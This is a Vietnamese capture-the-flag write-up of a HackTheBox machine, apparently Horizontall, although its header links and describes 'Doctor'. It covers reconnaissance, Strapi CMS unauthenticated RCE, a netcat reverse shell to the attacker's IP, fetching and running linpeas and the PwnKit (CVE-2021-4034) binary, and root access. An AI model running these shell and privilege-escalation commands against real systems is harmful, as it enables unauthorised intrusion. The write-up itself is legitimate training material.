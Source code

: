 ![image](https://hackmd.io/_uploads/HkD2LxZjR.png)

# Machine info and Comment
## Machine info
[Link](https://app.hackthebox.com/machines/Doctor)

## Comment
Đây là một máy có lỗ hổng SSTI to RCE sau đó tiến hành leo quyền 

# Recon
## nmap 
Sau khi nmap ta scan được **2** port ssh và http 
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -sS 10.10.11.105       
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:46 EDT
Nmap scan report for 10.10.11.105
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.30 seconds
```
Từ đây, ta sẽ scan tiếp 2 port này xem có gì để khai thác
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sCV 10.10.11.105
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:48 EDT
Nmap scan report for 10.10.11.105
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.99 seconds
```
Thêm domain `horizontall.htb` vào `/etc/hosts`sẽ có trang chúng ta cần

## Port 80 - http
Khi truy cập vào ta có giao diện trang web

![image](https://hackmd.io/_uploads/S1mr2x-oC.png)

Trang web này không có một tính năng gì. Khi dùng devtool để kiểm tra các gói được load, `app.c68eb462.js` đề cập đến 1 subdomain khác là **api-prod.horizontall.htb**

![image](https://hackmd.io/_uploads/BJ-bAgWj0.png)

Thêm subdomain `api-prod.horizontall.htb` vào `/etc/hosts` sẽ có trang mới xuất hiện

![image](https://hackmd.io/_uploads/r1xZJWWiR.png)

## Gobuster 
Kết quả ban đầu của ta từ Gobuster không thú vị lắm
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://horizontall.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```
Tương tự với subdomain ta có 3 path khác với `users` đã bị 403
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
/admin                (Status: 200) [Size: 854]
```

Với `/reviews` ta chưa thu thậm được gì nhiều về thông tin

![image](https://hackmd.io/_uploads/H1JXlbWiC.png)

Với `/admin` ta có 1 trang web sử dụng CMS Strapi 

![image](https://hackmd.io/_uploads/H1IdebWjA.png)

# User flag
## Exploit
### Searchsploit

![image](https://hackmd.io/_uploads/BkNE7ZWi0.png)

Nó cho ta kết quả của 3 loại khác thác đầu tiên lạm dụng cách Strapi xử lý sai các yêu cầu đặt lại mật khẩu; và thứ hai cho phép thực thi mã từ xa trong các thành phần cài đặt plugin vì nó không kiểm tra tên plugin.

`50237.py`

Đọc file này ta có thể xem được version của web mình là **3.0.0-beta.17.4**

![image](https://hackmd.io/_uploads/SkH_Lb-iC.png)

![image](https://hackmd.io/_uploads/SyuUIZZsC.png)

Từ đây khai thác bằng `Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)` 

![image](https://hackmd.io/_uploads/Bki_KZ-i0.png)

### Reverse shell
Vì nó là blind RCE khi chạy script nên ta sẽ dùng reverse dshell để nghe 
```
mkfifo /tmp/lol;nc 10.10.14.93 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
![image](https://hackmd.io/_uploads/HyeyqZ-iR.png)

## Post-Exploit
```
$ cd /home
$ ls
developer
$ cd developer
$ ls
composer-setup.php
myproject
user.txt
$ cat user.txt
bf57a050fcb876ba6eb********
```
# Root flag
## Exploit
Tải linPeas về máy mục tiêu và chạy file
```
$ cd /tmp
$ curl http://10.10.14.93:8888/linpeas.sh -o linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.s
```
Khi chạy LinPeas ta thấy mục tiêu dễ bị tấn công bởi **CVE-2021-4034** (PwnKit privesc). Đây là một lỗ hổng leo thang đặc quyền trong linux sử dụng [PwnKit](https://github.com/ly4k/PwnKit?ref=avitek.blog). 

![image](https://hackmd.io/_uploads/HylYoWWiC.png)

```
#Máy tấn công 
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

#Máy mục tiêu
$ curl http://10.10.14.93:8888/PwnKit -o PwnKit
$ chmod +x PwnKit                                    
$ ./PwnKit
mesg: ttyname failed: Inappropriate ioctl for device
id
uid=0(root) gid=0(root) groups=0(root),1001(strapi)
```
## Post-Exploit
```
cat /root/root.txt
4113991bda122b655c8a6*****
```

![image](https://hackmd.io/_uploads/HyNszfboA.png)


